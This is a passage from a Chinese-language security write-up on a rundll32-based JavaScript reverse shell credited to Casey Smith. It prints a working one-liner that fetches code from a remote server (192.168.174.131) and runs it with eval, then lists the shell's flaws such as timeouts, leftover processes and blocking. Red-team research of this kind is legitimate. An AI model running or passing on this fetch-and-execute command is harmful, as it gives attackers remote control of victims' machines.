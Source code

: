 ```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.174.131/connect",false);h.Send();B=h.ResponseText;eval(B)

```

**3、Server弹回Shell**

可以执行cmd命令并获得回显

![Alt text](http://drops.javaweb.org/uploads/images/25b3d931e64c5e21c08a8fb02fd92c960ca3392c.jpg)

0x04 测试中的Bug
============

* * *

**1、连接超时**

![Alt text](http://drops.javaweb.org/uploads/images/a7a97476e79784091dd0befc2317334ec74705f1.jpg)

在成功返回shell后，如果在后台等待一段时间，Clinet就会弹出超时连接的对话框

![Alt text](http://drops.javaweb.org/uploads/images/c837af4b6231a56b2de2165a330cde0cd5083ef7.jpg)

从截图可以看到Casey Smith已经发现了连接超时的问题，所以在新版本已经做了修正，加上window.setTimeout来避免连接超时的错误，在message内加了超时判断（message存储用于实现Client后续连接的代码，具体细节一看代码就明白），但是这样做还远远不够。

**2、进程残留**

如果Server退出，Clinet还会存在rundll32.exe进程

**3、执行cmd命令会弹黑框**

如果是立即回显的cmd命令，黑框一闪而过

如果是systeminfo这种需要等待的cmd命令，会一直弹出cmd 执行的黑框，等到执行完毕才会退出

**4、执行exe会阻塞**

比如执行calc.exe，server端会阻塞，直到关闭calc.exe进程才会恢复正常

如图

![Alt text](http://drops.javaweb.org/uploads/images/ede84a7522286e4915c995ca89d4eba8f10ffcf4.jpg)

**5、无法删除文件**

如图

![Alt text](http://drops.javaweb.org/uploads/images/46f34d2e3ac5eb4b7ba4550b1e7929f0559a772d.jpg)

![Alt text](http://drops.javaweb.org/uploads/images/2fad0724100abfda7bb51a7b3f2828a64311c4ed.jpg)

**6、server端无法正常退出**

想退出只能强行关闭当前cmd.exe

**7、无法上传下载文件**
